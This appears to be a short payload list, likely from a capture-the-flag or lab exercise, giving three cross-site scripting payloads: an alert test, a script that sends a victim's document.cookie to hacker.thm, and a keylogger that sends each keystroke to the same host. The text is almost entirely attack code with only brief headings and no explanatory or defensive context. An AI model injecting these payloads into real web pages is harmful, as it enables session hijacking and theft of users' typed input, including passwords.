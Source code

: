 # test

<script>alert('XSS');</script>

# session steal

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

# key logger

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
